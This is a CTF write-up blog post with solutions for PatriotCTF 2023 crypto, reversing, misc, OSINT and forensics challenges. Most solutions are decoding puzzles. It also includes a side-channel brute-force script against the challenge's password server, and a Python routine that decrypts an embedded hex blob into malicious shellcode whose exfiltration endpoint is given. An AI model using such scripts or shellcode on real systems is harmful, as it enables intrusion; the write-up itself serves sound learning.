


A very interesting beginner-intermediate level CTF from the CyberSec club of George Mason University. I played with **Weak But Leet** and we solved all but one challenge, which placed us 10th in a field of over 1274 teams, with 2904 players. 
<!--more-->

### Crypto
#### Multi-numeral
`Much numbers, many wows.`

We are given a text file with a string of binary numbers. A series of transformations gets us the flag.
```
   Convert Binary -> Decimal -> Hex -> Base64 -> Flag
    PCTF{w0w_s0_m4ny_number5}
```
####  My phone!
`Some weird triangle man stole my phone, he taunted me by sending me his location but it seems to be encrypted with some odd cipher I've never seen before, could you please help me get my phone back?`

Use `dCode.fr` using the [Gravity Falls Bill Cipher](https://www.dcode.fr/gravity-falls-bill-cipher)

We get, 
`FOURSIX.SEVENSIXEIGHT,-NINETWO.ONETWOFOUR`

Convert to lat/long coordinate form 
`46.768, -92.124`

Gives the flag as `PCTF{Duluth}`

#### ReReCaptcha
`Boy these captcha's are getting out of hand! First it was some numbers and letters, then they wanted me to find all the crosswalks and stoplights, now, I just got these 4 images in a zip file as the captcha.`

This was in essence a straight forward RSA challenge, with the private keys disclosed to us. The only challenge was to accurately transfer the `ct, p and q` values from an image form to text. This highlights the math used in the RSA crypto-system and how a corruption of a single digit can render the entire scheme useless.

```python
    # we are given ct, p, q, and e
    # the only trick is that ct, p and q are provided as images, so we need to use an online OCR site to convert them to text
    n = p * q
    phi = (p-1) * (q-1)
    d = inverse(e, phi)

    print(long_to_bytes(pow(ct, d, n)))
    # b'PCTF{I_H0P3_U_U53D_0CR!}'     you bet!
```

#### Secret Wall Code
`We found this werid symbol language in a secret backroom wall. We have scanned the symbols and need your help figuring what it means. We were able to figure out one symbol.`

* https://youtu.be/eQZSSRImJdw?t=4622
* https://www.youtube.com/watch?v=bYXi9evimPs

There are much better writeups for this challenge than what I can write. I will just link them here.
* Original author : https://github.com/MasonCompetitiveCyber/PatriotCTF2023/tree/main/Crypto/Secret%20Wall%20Code
* Impossible Terminal's fantastic solve: https://discord.com/channels/958195827933855854/970069048706613258/1150551861376598037

#### Mason Competitive Cyber 
`A member of our cyber club tried to be clever and send us a secret messed encoded using our club's name. We want to make sure it can't be deciphered if someone managed to get ahold of our message, can you try breaking the encoding for us?`

We are given a file that is deceptively has the `.txt` extension. Opening the file in a text editor showed that there were binary characters embedded between the readable characters. 


Further analysis shows that these `invisible` characters form a binary sequence. So we will use `e2808c` to depict a `0` and `e2808d` to depict `1`, ignoring everything else. This binary sequence forms the flag. 

```bash
% cat MasonCompetitiveCyber.txt| tr -d 'MasonC\n\r' | xxd -p -c0 | sed -e 's/[e2808|efbbbf]//g' | tr 'cd' '01' | perl -lpe '$_=pack"B*",$_'
PCTF{M@s$0N_COmP3t1t1VE_CYB3r!}
```

#### Mason Competitive Cyber 2
`It seems that someone managed to break the encoding on our previous message and the secret got out! We've reinforced the secret encoding of our message so there's no way anyone can break it this time.`

Similar to challenge #1, we are given a text file that has invisible characters embedded in it. This time, we have a couple more steps to solve it. The beginning steps is the same - we will use `e281a2` and `e281a3` to represent `0` and `1`. Ignore everything else, convert to text and we get a message saying we are halfway there and to use the number `5 3 8 4 7 1` for the next step.

```bash
    # part 1
    % cat MasonCompetitiveCyber2.txt| tr -d 'MasonC\n\r' | xxd -p -c0 | sed -e 's/e281a//g' | sed -e 's/e2808d//g'| tr '23' '01' | perl -lpe '$_=pack"B*",$_'
    You're halfway there, now use these numbers to solve the rest: 5 3 8 4 7 1
```
So, now, turning our attention to the sequence of the readable characters, we can see that the cipher is made out of six characters `M-a-s-o-n-C`.  Assigning them the values from the message and calculating the total sum of each line, gives us the ascii value of the characters of the flag.  The approach I used is to use the `eval()` function of python. 

Example: 
`line 1:  M⁢M⁣aa⁢a⁣a⁣ass⁢s⁢s⁣o‍o⁢o⁣n⁣C⁢CC⁣C⁣ = 5+5+3+3+3+3+3+8+8+8+8+4+4+4+7+1+1+1+1 = 80 = P`

The full solution is: 
```python
    # part 2
    infile = open('MasonCompetitiveCyber2.txt', 'r').readlines()
    M,a,s,o,n,C = 5,3,8,4,7,1
    flag = ""
    for line in infile:
        just_lets = [c for c in line if ord(c)<128 and ord(c)>32]
        # convert to a python arithmetic expression and eval it
        flag += chr(eval('+'.join(just_lets)))  
    print(flag)
    # PCTF{M0r3!_C0mpET1tIve_CyB3R_@_M4$$on}
```

### Reverse

#### Python Garbage Compiler
`Can you solve this steaming pile of hot garbage?`

We are given a python program and an output file. The python program takes an input string and passes it through several stages of manipulation and compares it to the scrambled value in the output file. We need to reverse the manipulations to figure out what the correct input needs to be. 

Some of the distractions that should be ignored are:
1. Every line of the source file has a comment in brainfuck. It serves no purpose
1. There are two complicated ways to initialize variables in functions `final_stage()` for `flag` and in `stage2()` for `t`. They both yield an empty string
1. In `stage1()` the variable `b` and all the operations involving it can be ignored as it is not used anywhere.

The following is a modified source to reverse the effect of the stages in the reverse order. 

```python
import string 
from random import * 

    def undo_stage3(w):
        flag = ''
        h = 0
        while h < len(w): 
            try: 
                flag += w[h+1] + w[h] 
            except: 
                flag += w[h] 
            h+=2 
        return flag[::-1]

    def undo_stage2(b):
        b = undo_stage3(b)
        seed(10)
        t = ''
        for q in range(len(b)): 
            t+= chr(ord(b[q])+randint(0,5)) # add random number instead of subtracting
        return t 

    def undo_stage1(a): 
        a = undo_stage2(a)
        a = list(a) 
        b = list(string.ascii_lowercase) 
        for o in range(len(a)): 
            a[o] = chr(ord(a[o])^o)

        z = "".join(x for x in a[::-1]) 
        return z 

    f = open("garbage/output.txt", "r").readlines()[0].strip()

    print(undo_stage1(f))
    #PCTF{H0w_D1d_y0U_br34k_my_1337_c0de?}
```

#### Python XOR
We are given a hint that the XOR key is one of the punctuation marks. So we can iterate through them until we find a flag. 

```python
    from pwn import *
    from string import punctuation

    alphabet = list(punctuation)
    data = "bHEC_T]PLKJ{MW{AdW]Y"

    for c in alphabet:
        print(c, '--->', xor(data.encode(), c.encode()))
    # $ ---> b'Flag{python_is_e@sy}'
```
### Misc

#### Flag Finder
`All you have to do is guess the flag.`

We are just given a netcat connection to a challenge server. No other information. 

Using trial and error, we can see that the challenge server provides some useful responses for us to determine the correct length of the flag, along with character-by-character check. The server also immediately terminates the connection when it encounters the first wrong character in the password. 

The flag seems to indicate we need to use some time of a timing attack - but using the response size is more reliable. 

```bash
% nc chal.pctf.competitivecyber.club 4757
What is the password: sdfdsfs
sdfdsfs is not long enough

% nc chal.pctf.competitivecyber.club 4757
What is the password: pctf{01234567890123}   
pctf{01234567890123} is too long

% nc chal.pctf.competitivecyber.club 4757
What is the password: pctf{0123456789012}
User input: 112
Flag input: 112
User input: 99
Flag input: 99
User input: 116
Flag input: 116
User input: 102
Flag input: 102
User input: 123
Flag input: 123
There's been an error
pctf{0123456789012}
```
We can use these properties to devise a brute-forcing technique. We will initialize the flag with the known good characters and fill the rest of the flag with character that we brute-force. The key measure we monitor is the length of the response from the server. For any character, if the length of the response is greater than the previous round, we know that we have the correct character. We add this to the flag and repeat until we have the full flag. 

```python
from pwn import *
import string
import time

def verify_pw(old_flag, new_char):
    R = remote('chal.pctf.competitivecyber.club', 4757)
    R.recvuntil(b'What is the password: ')
    pwlen = 19 - 1 - len(old_flag)
    new_pw = old_flag + new_char * pwlen + '}'
    R.sendline(new_pw.encode())
    s = R.recvuntil(b'pctf{')
    print(f"{new_char} : {len(s)}  {new_pw}")
    R.close()

    # be kind. sleep briefly
    time.sleep(0.5)

    #return the length of the response. The response is longer if the current char is correct
    return len(s)   

flag = "pctf{"
# pctf{0123456789012}
# context.log_level = "debug"

wrong_len = verify_pw(flag, '&')
while (len(flag)<18):
    for x in string.ascii_letters + string.digits:
        L = verify_pw(flag, x)
        if (L != wrong_len):
            print(x, L)
            flag += x
            wrong_len = L
            break
print(flag+'}')

# pctf{Tim3ingI8N3at}
```
#### Uh Oh! 
`Uh Oh! While trying to add passwords to my wordlist, I accidentally added my own phone number! Can you tell me what line it's on?`
```bash
    % unzip -c rockyou.zip| egrep -n -e '\([2-9]\d\d\) [2-9]\d\d-\d\d\d\d'
    7731486:(404) 303-7283
```
The `unzip -c` approach adds two extra lines at the beginning. So, the actual line number is `7731484`, making the flag `PCTF{7731484_4043037283}`

#### Twins
`How did the twin feel after meeting his long-lost brother? He was beside himself.`

We are given two relatively long text files named `he.txt` and `she.txt`.  I used a hex editor to compare the two files to discover that there are some byte changes between the two files. Capturing all the bytes that are in `he.txt` and has been either changed or replaced in `she.txt`, along with any bytes inserted into `she.txt` gives us the flag. 



```
% echo "61 77 65 73 30 4d 65 5F 73 54 6F 72 69 65 73 5f 6D 61 6e" | xxd -p -r 
awes0Me_sTories_man
```

### OSINT
#### Bad Documentation
We are given a seemingly empty git repository. However, we can see the commit history and see there is a image that shows the details of an HTTP interaction - which includes the Authorization header. Decoding the Authorization header gives us the flag


```
    % echo "YWRtaW46UENURntOMF9jMEQzJ3NfM1ZlUnlfUjNhTGxZX0cwbjN9" | base64 -d
    admin:PCTF{N0_c0D3's_3VeRy_R3aLlY_G0n3}
```
### Forensics

#### Congratulations
`Congratulations on making it this far, here's an email attatchment.`

A team mate did the initial analysis of the Word document provided as the attachment to this challenge. The word document (which can be extracted using `zip`), has a VBA macro. One variable `x49` stands out as with the following logic. Converting the list of hex values to a string, provides us the flag. 

```
    % echo "[char]0x50 + [char]0x43 + [char]0x54 + [char]0x46 + [char]0x7B + [char]0x33 + [char]0x6E + [char]0x34 + [char]0x62 + [char]0x6C + [char]0x33 + [char]0x5F + [char]0x6D + [char]0x34 + [char]0x63 + [char]0x72 + [char]0x30 + [char]0x35 + [char]0x5F + [char]0x70 + [char]0x6C + [char]0x7A + [char]0x5F + [char]0x32 + [char]0x37 + [char]0x33 + [char]0x31 + [char]0x35 + [char]0x36 + [char]0x37 + [char]0x30 + [char]0x7D" | sed -e 's/\[char\]0x//g' | xxd -p -r
    PCTF{3n4bl3_m4cr05_plz_27315670}
```
#### Evil Monkey 1
`One of the employees at our studio "Meatball Works" sent out this blend file to an external company for review and lighting reworks. When it came back, our EDR system captured malicious traffic that seemed to be coming from Blender. One of the SOC analysts found some sort of encrypted shellcode in the file but doesn't know the encryption key. Can you find it?`

We are given a blender file.


1. Use the outliner view to find the all the objects in the scene.
1. Locate an object called `Suzanne`, which you can locate behind the backdrop. This is a model of a monkey's head. 
1. Select that object and inspect its properties.
1. Under the custom properties, you can see a parameter called `animation_angle`, which is initialized to the value `Th3_EV!L_M0NK3Y!`
1. Opening the text editor, we can see that this value is passed to the `arc_cosh()` function, which is bound to this action. 
1. The passed in value is used to XOR with a string to create the shellcode
1. So, the flag is `PCTF{Th3_EV!L_M0NK3Y!}`

#### Evil Monkey 2
`Congrats! Great job on finding that decryption key, now we can start to analyse the shellcode and figure out what happened. One issue though, we're having trouble figuring out where the traffic was going to. Can you tell us what the remote endpoint was?`

From the previous challenge, we can see python script that creates the shellcode using the secret key. We can recreate this logic and get a binary file containing the shellcode. 

```python
    import itertools
    from binascii import hexlify

    def arc_cosh(val):
        angle_calculator = "a880bc5f4556417d8dc4d52ac06169aa0664b80d5167de43e80716c5391b68e1f8545223477a018d904031890246b67303e3614fce141d4d8fc67036cef32d6d55b8b8076557f2c7175560cb82476510ab21b86bce57f77d9f8cff43e7329e19b41dc75c38ae1a317b38d016c06b7d20870eb8530edd79505e9ebb4ac03289a8104c17041e3778160eb2d0161469d233bde8cca0ba0b497f6d4d30263c406b7e00007f286351a8a4a09d88de4a335908903c63376cd64a4ca0985a44233e7c2c7100315f439ca8aa0f1d601e0b6319713c823c80a5a9f4db355d661923aafc553597e6da85222bb3114545a2a354592154023335410076245d94f811b4e6dad9541605d4733c61245f5d304e1d5959490ccc60baba83b21f354d661d1c5b5bf89c37cc8ac6ae21317715584e0b33594b54385b546a5911b38a1a583b257e38de81366da049722ec92fb2cfb1a2a8a6deab69f0768323e08fe4bd85ec1d595972abbd"
        angle_calculator = bytes.fromhex(angle_calculator)
        shellcode = b""
        for x,y in zip(angle_calculator, itertools.cycle(val.encode())):
            shellcode += (x^y).to_bytes(1, "big")
        
        output_file = open('shellcode.bin', 'wb')
        output_file.write(shellcode)
        output_file.close()

        print(hexlify(shellcode))
        return 0
    key = 'Th3_EV!L_M0NK3Y!'
    arc_cosh(key)
```
From this point, for a while, I went on a wild-goose chase to understand what the shellcode was doing. Then after a while, a team member reminded me that we need to find the ip-address and port of the exfiltration host.  So, I used threat analysis sites for well-known shellcode exploits and immediately found the threat analysis report, which shows the contacted hosts, ports and protocols. 

* https://www.virustotal.com/gui/file/9696d39007551b075cc2acf9d69b1c51134e7feb73b423353d65229e22fa4962
* https://hybrid-analysis.com/sample/a99222b871adee0178a92831be5917cd131451971b36bf8191a2d7d0429f3997/64fd2327cb60c83dfc0bfc10


The flag is `PCTF{13.37.13.37_1738}`

#### Elbonia 
`The Kingdom of Elbonia has intercepted a transfer of an encoded message, but they can't seem to break the code. They have tasked you with recovering the hidden message, it is of the utmost importance that you crack it. Good luck brave warrior!`

We are given a pcap file. Looking at the protocol details, we can see that the pcap file contains 1663 UDP packets. However, some of the packets are identified as a different protocol, but malformed. This is usually because of the port used, which tricks Wireshark into thinking that this is a packet for a specific protocol. For example, `kerberos=88, xyplex=173, ntp=123 etc.`

```bash
% tshark -r message.pcapng -qz io,phs
===================================================================
Protocol Hierarchy Statistics
Filter: 
eth                                      frames:1663 bytes:71509
  ip                                     frames:1663 bytes:71509
    udp                                  frames:1663 bytes:71509
      data                               frames:1554 bytes:66822
      _ws.malformed                      frames:54 bytes:2322
      echo                               frames:6 bytes:258
      kerberos                           frames:6 bytes:258
        _ws.malformed                    frames:6 bytes:258
      tftp                               frames:2 bytes:86
        _ws.malformed                    frames:2 bytes:86
      xyplex                             frames:8 bytes:344
        _ws.malformed                    frames:8 bytes:344
      chargen                            frames:7 bytes:301
      ntp                                frames:6 bytes:258
        _ws.malformed                    frames:6 bytes:258
      daytime                            frames:3 bytes:129
      rpc                                frames:7 bytes:301
      time                               frames:5 bytes:215
      nbdgm                              frames:5 bytes:215
        _ws.malformed                    frames:5 bytes:215
===================================================================
```
So, we look at the ports used and notice that the destination ports are used between 1-255, while the data packets are in the range of 33-127 (printable ascii) as shown by this scatter chart.


After getting distracted by the UDP data payload for am embarassingly long time, we found the flag in the byte values of the `udp.dstport` field, which contains the destination port.

```
% tshark -r message.pcapng -T fields -e udp.dstport | awk '{printf "%x",$0}' | xxd -p -r | strings -n 25
'MPCTF{53cr3t_c0d3_1n_p0rt5}/7e[c/TQh(Sd

# a much better approach.
% tshark -r message.pcapng -T fields -e udp.dstport | awk '{if ($1>32 && $0<128) printf "%x",$0}' | xxd -p -r | grep -Eo "PCTF{.*?}"
PCTF{53cr3t_c0d3_1n_p0rt5}
```

#### Gotta Ping Em All
`Our SOC has recently discovered thousands of unusual packets being sent into our network from an unknown source. We have since traced the origin to a known APT group, however are still unable to determine the meaning behind the packets. You have been contracted to help investigate significance of the packets.`

We are given a pcap file. Looking at the protocols used, we can see that there are 43798 packets, but nearly 300 protocols are shown with only 1 packet each. This indicates that the destination port is being used to signal some information. 

```bash
===================================================================
Protocol Hierarchy Statistics
Filter: 
eth                                      frames:43798 bytes:3864373
  ip                                     frames:43798 bytes:3864373
    tcp                                  frames:43798 bytes:3864373
      data                               frames:43518 bytes:3839652
        tpkt                             frames:1 bytes:91
      ipsictl                            frames:1 bytes:84
      bittorrent                         frames:9 bytes:788
      isakmp                             frames:1 bytes:87
        _ws.malformed                    frames:1 bytes:87
      vnc                                frames:4 bytes:350
      beep                               frames:1 bytes:86
      ssh                                frames:2 bytes:181
      gift                               frames:1 bytes:90
      lpd                                frames:1 bytes:92
      wow                                frames:1 bytes:89
      <------- snip ---- >

# every packet has a unique destination port
% tshark -r poke.pcapng -T fields -e tcp.dstport | wc
   43798   43798  251682
# it is a sequential list of numbers from 1 .. 43798
% tshark -r poke.pcapng -T fields -e tcp.dstport | sort -n | head -5 
1
2
3
4
5
% tshark -r poke.pcapng -T fields -e tcp.dstport | sort -n | tail -5
43794
43795
43796
43797
43798
```
After confirming that we know that the destination port used is some kind of an ordering system, we turn our attention to the payload. The challenge title and the data in the payload indicates that we are dealing with Pokemon names. In the Pokedex, we have about 1010 unique pokemons. Initially I thought it could be some kind of a linked-list or a substitution cipher. The payload of each of the 43K packets was in the format `<pokemon name>_<numbers+lowercase>_<pokemon name>`. Looking closely as the middle part of the data packets, showed that this is an anagram of another pokemon name, with scrambled digits 0-9, each appearing exactly once. 
For example, the first packet in the order is : `luxray_8e37g94t2i506odpto1_yveltal`, which has the scrambled data of `8e37g94t2i506odpto1`. If we extract all the numbers, we can see that it is `8379425061` and the remaining letters are `egtiodpto`, which is an anagram of `pidgeotto`. So, unless we have some complicated substitution cipher, the datapackets seem to be meaningless. More importantly, the middle part seems to be a jumble of random data and not binary data for a JPEG, as the challenge hint was stating. 

So I went back to wireshark to dump the first packet (with `dstport == 1`).  There were not too many fields other than the Data packets, destination port that were under the control of the sender. The one thing that stood out was the checksum, especially with a status code of `2`, which means that it is unverified. 

```json
% tshark -r poke.pcapng -T json -Y "tcp.dstport==1"      
[
  {
    "_index": "packets-2023-08-31",
    "_type": "doc",
    "_score": null,
    "_source": {
      "layers": {
        "frame": {
          "frame.section_number": "1",
          "frame.interface_id": "0",
          "frame.interface_id_tree": {
            "frame.interface_name": "lo"
          },
    <snip>
          "tcp.window_size_value": "8192",
          "tcp.window_size": "8192",
          "tcp.checksum": "0x6666",    <----  "FF"  sus !  
          "tcp.checksum.status": "2",  <----  Unverified
          "tcp.urgent_pointer": "0",
    <snip>
```
Knowing that the magic bytes for a JPEG file is `FFD9`, it seems to indicate the first byte of a JPEG file. So, we dump all the checksum bytes in the right order (as indicated by the destination port), and convert them from hex to ascii twice, we get a cute little picture of Pikachu!

```bash
    % tshark -r poke.pcapng -T fields -e tcp.dstport -e tcp.checksum | sort -n | cut -f2 | cut -c3- | tr -d '\n' | xxd -p -r | xxd -p -r > poke.jpg

    % file poke.jpg
    poke.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 72x72, segment length 16, progressive, precision 8, 600x378, components 3
```
Using steg detection techniques on the image file, showed that there are 50 bytes appended to the end of the image file. Looking at those 50 bytes show that all of them to be greater than 0x7F, which is suspicious.

```bash
    % stegdetect poke.jpg 
    poke.jpg : appended(50)<[random][Non-ISO extended-ASCII text, with no line terminators][................]> 
    
    %tail -c50 poke.jpg | xxd 
    00000000: afbc abb9 84a8 9790 d88c a08b 979e 8ba0  ................
    00000010: 8f90 949a 9290 91c0 a0b6 abac a0af b6b4  ................
    00000020: bebc b7aa dea0 c69c 9acf c999 cec6 9ecd  ................
    00000030: ca82                                     ..
```

So, we have two ways to make the most-significant-bit to be `0` as required for ASCII characters. 
1. Set the bit to zero by bitwise-AND   (& 0x7F)
1. XOR the entire byte with FF          (^ 0XFF)

After confirming that the first approach does not work, we can see that using the XOR approach gives us the flag. 

```bash
    % tail -c 50 poke.jpg | xxd -p -c0 | python3 -c "from pwn import xor, unhex; print(xor(0xff, unhex(input())))"
    b"PCTF{Who's_that_pokemon?_ITS_PIKACHU!_9ce06f19a25}"

    # we can do it in one step too !!!
    % tshark -r poke.pcapng -T fields -e tcp.dstport -e tcp.checksum | sort -n | cut -f2 | cut -c3- | tr -d '\n' | xxd -p -r | tail -c 100 | python3 -c "from pwn import xor, unhex; print(xor(0xff, unhex(input())))"
    b"PCTF{Who's_that_pokemon?_ITS_PIKACHU!_9ce06f19a25}"

    # Wait! That Python program looks ugly in the middle of the pure bash magnificance. Let's get rid of it.
    % tail -c50  poke.jpg  | od -An -t u1 | tr ' ' '\n' | gawk '{if (length) printf "%c",xor(255,$0)}'
    PCTF{Who's_that_pokemon?_ITS_PIKACHU!_9ce06f19a25}
```
### Certificate




### Challenges

|Category|Challenge|Description
|----|----|----
Crypto |Breakfast club|
Crypto |Mason Competitive Cyber 2|zero width space + math
Crypto |Mason Competitive Cyber|zero width space cipher
Crypto |Multi-numeral|series of transformations
Crypto |My phone!|Gravity Falls Bill cipher
Crypto |ReReCaptcha|OCR data and RSA
Crypto |Secret Wall Code|Friday night at freddy's wall cipher
Forensics |Capybara|
Forensics |Congratulations|
Forensics |Elbonia|dstport -> flag
Forensics |Evil Monkey 1|Blender data
Forensics |Evil Monkey 2|
Forensics |Gotta Ping Em All|
Forensics |Read The EULA|
Forensics |Unsupported Format 2|
Forensics |Unsupported Format|
Misc |Binary|
Misc |Flag Finder|
Misc |ML Pyjail|
Misc |Twins|
Misc |Uh Oh!|
Misc |WPA|
Misc |Welcome|
OSINT |Bad Documentation|
OSINT |Karter|
OSINT |Marketing Campaign|
OSINT |Name That Plane|
OSINT |Rouge Access Point|Look up in wigle.net 
OSINT |Satellite Killer|
PWN |Note Taker|
PWN |bookshelfv2|
PWN |bookshelf|
PWN |guessinggame|
PWN |printshop|
PWN |softshell|
Rev |Coffee Shop|
Rev |GoLmoL|
Rev |Patchwork|
Rev |Python Garbage Compiler|
Rev |Python XOR|
Rev |Reduced Reduced Instruction Set 2|
Rev |Reduced Reduced Instruction Set|
Rev |Suboptimal|
Trivia |1972 Schism|
Trivia |Final Four|
Trivia |Getting down like a bunch of Tito Clowns|
Trivia |Mascot Conundrum|
Trivia |Mason ID OSINT|
Web |Checkmate|
Web |Flower Shop|
Web |One-for-all|
Web |Pick Your Starter|
Web |Scavenger Hunt|
